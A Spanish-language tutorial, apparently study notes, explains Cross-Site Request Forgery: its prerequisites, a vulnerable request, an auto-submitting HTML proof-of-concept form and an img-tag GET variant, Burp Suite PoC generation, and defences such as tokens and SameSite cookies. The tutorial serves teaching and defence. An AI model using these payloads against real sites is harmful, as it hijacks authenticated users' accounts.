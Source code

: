 # Cross-Site Request Forgery

## 🔎 ¿Qué es CSRF?

**Cross-Site Request Forgery** es una vulnerabilidad de seguridad web que permite a un atacante inducir a un usuario autenticado a realizar acciones que no tenía intención de ejecutar. En esencia, **aprovecha la confianza que un sitio tiene en el navegador del usuario**.

El ataque CSRF permite en parte eludir la **Same Origin Policy**, una política de seguridad que impide que sitios distintos se interfieran entre sí.

---

## 🚀 Impacto de un ataque CSRF

Cuando un CSRF tiene éxito, el atacante puede:

* Cambiar la dirección de correo del usuario.
* Modificar su contraseña.
* Transferir fondos.
* Realizar cualquier acción que el usuario autenticado pueda ejecutar.

Si el usuario víctima tiene privilegios elevados, como un administrador, el atacante podría obtener control total sobre la aplicación.

---

## ⚖️ Requisitos para que un CSRF sea posible

Para que una vulnerabilidad CSRF pueda explotarse, deben cumplirse tres condiciones:

1. **Acción relevante**: Debe existir una acción que interese al atacante (por ejemplo, cambio de contraseña, email, etc.).
2. **Manejo de sesión basado en cookies**: El sitio usa **cookies automáticas** para identificar al usuario, sin ningún otro mecanismo adicional de validación (como tokens).
3. **Parámetros predecibles**: El atacante puede predecir o controlar los parámetros necesarios en la solicitud HTTP.

---

## 📁 Ejemplo de solicitud vulnerable

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123xyz

email=attacker@example.com
```

Si el servidor solo depende de la cookie para autenticar la sesión y no requiere token, es vulnerable.

---

## 🔧 Construcción de un ataque CSRF

El atacante puede crear una página HTML maliciosa como esta:

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Este fragmento de código representa una prueba de concepto para explotar una vulnerabilidad de tipo **Cross-Site Request Forgery**. A continuación se detalla el funcionamiento de cada parte del documento y su implicancia en el ataque.

---

## 🔍 Contexto general

La página fue creada por un atacante con el objetivo de inducir a un usuario autenticado a **enviar una solicitud POST maliciosa** al sitio `vulnerable-website.com`, sin que el usuario lo sepa.

El objetivo es cambiar el email de la cuenta del usuario víctima por `pwned@evil-user.net`.

---

## 🗋 Estructura del HTML

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### ✉️ Formulario oculto

```html
<form action="https://vulnerable-website.com/email/change" method="POST">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
</form>
```

* El formulario está configurado para enviar una solicitud POST a `https://vulnerable-website.com/email/change`.
* El campo `email` tiene un valor oculto (`hidden`) que representa el correo malicioso al que el atacante quiere cambiar la cuenta del usuario.
* Este formulario no tiene botones visibles para el usuario.

### 👉 Envió automático con JavaScript

```html
<script>
    document.forms[0].submit();
</script>
```

* Apenas se carga la página, el navegador ejecuta este script.
* El script selecciona el primer formulario de la página (`forms[0]`) y lo **envía automáticamente**.
* Si el usuario está logueado en `vulnerable-website.com`, su navegador enviará también la cookie de sesión.

---

##

---

Si el usuario víctima visita esta página mientras está autenticado en el sitio vulnerable:

* Su navegador enviará la cookie de sesión.
* El servidor procesará la petición como si el usuario la hubiese enviado.

---

## ✨ Automatización del ataque con Burp Suite

Burp Suite Professional permite generar ataques CSRF de forma automática:

1. Seleccionar una petición en Burp.
2. Clic derecho → **Engagement tools** → **Generate CSRF PoC**.
3. Burp genera el HTML necesario para explotar el CSRF.
4. Se puede editar para afinar el ataque.

Esto simplifica la creación de formularios con muchos parámetros o requests complejos.

---

## 🌐 Mecanismos de entrega de CSRF

* **HTML alojado por el atacante**: se envía por redes sociales, email, etc.
* **Comentario en sitio popular**: donde se incluya el HTML malicioso.
* **Autoejecución con `img src`** si la acción vulnerable es por GET:

```html
<img src="https://vulnerable.com/deleteUser?id=123">
```

No se necesita formularios en este caso, y puede ejecutarse con solo visitar una URL.

---

## 🛡️ Defensas contra CSRF

### 1. CSRF tokens

* Valor secreto e impredecible que el servidor incluye en formularios.
* El cliente debe reenviarlo en cada solicitud.
* Si falta o es incorrecto, se bloquea la acción.

### 2. SameSite cookies

* Evita el envío de cookies en requests cross-site.
* Desde 2021, **Chrome aplica SameSite=Lax** por defecto.
* SameSite=Strict ofrece mayor protección.

### 3. Validación Referer/Origin

* El servidor verifica que el origen de la petición coincida con el dominio válido.
* Más fácil de evadir que un CSRF token.

---

## 🔗 Recursos adicionales

* [CSRF Labs en PortSwigger Academy](https://portswigger.net/web-security/csrf)
* [SameSite cookies (Google Dev)](https://developer.chrome.com/docs/web-platform/samesite-cookies-explained/)
* [CSRF Prevention Cheat Sheet - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)

---

## 🎓 Conclusiones clave

* CSRF explota el comportamiento automático de los navegadores al enviar cookies.
* Las solicitudes GET y POST son vulnerables si no hay protección.
* Las defensas modernas (tokens, SameSite, CSP) dificultan su explotación.
* Aun así, muchos sitios implementan protecciones mal configuradas.

---

